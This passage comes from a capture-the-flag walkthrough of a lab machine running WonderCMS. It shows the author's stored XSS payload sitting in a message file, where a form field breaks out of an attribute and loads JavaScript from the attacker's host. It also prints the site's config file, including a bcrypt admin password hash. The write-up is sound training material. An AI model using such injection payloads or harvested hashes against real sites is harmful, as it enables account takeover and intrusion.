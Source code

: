 ```
    ?>

```

Basically it appends to the with with today’s date in `/var/www/sea/messages`. It’s empty, but if I send my exploit again, it is in there (the bot cleans it up after seeing it):

```

www-data@sea:/var/www/sea/messages$ cat 2024-08-11.txt
Name: 0xdf
Email: 0xdf@sea.htb
Age: 100
Country: usa
Website: http://sea.htb/index.php?page=loginURL"></form><script src="http://10.10.14.6/0xdf.js"></script><form action="

```

In `data`, there’s a `database.js` file:

```

www-data@sea:/var/www/sea/data$ ls
cache.json  database.js  files

```

WonderCMS is proudly a file-based system, with no more complicated DB. `database.js` has the info for the site in a JSON format:

```

{
    "config": {
        "siteTitle": "Sea",
        "theme": "bike",
        "defaultPage": "home",
        "login": "loginURL",
        "forceLogout": false,
        "forceHttps": false,
        "saveChangesPopup": false,
        "password": "$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q",
        "lastLogins": {
            "2024\/08\/11 18:30:58": "127.0.0.1",
            "2024\/08\/11 18:30:28": "127.0.0.1",
            "2024\/08\/11 18:28:58": "127.0.0.1",
            "2024\/08\/11 18:28:27": "127.0.0.1",
            "2024\/08\/11 18:26:57": "127.0.0.1"
        },
        "lastModulesSync": "2024\/08\/11",
        "customModules": {
            "themes": {},
            "plugins": {}
        },
        "menuItems": {
            "0": {
                "name": "Home",
                "slug": "home",
                "visibility": "show",
                "subpages": {}
            },
            "1": {
                "name": "How to participate",
                "slug": "how-to-participate",
                "visibility": "show",
                "subpages": {}
```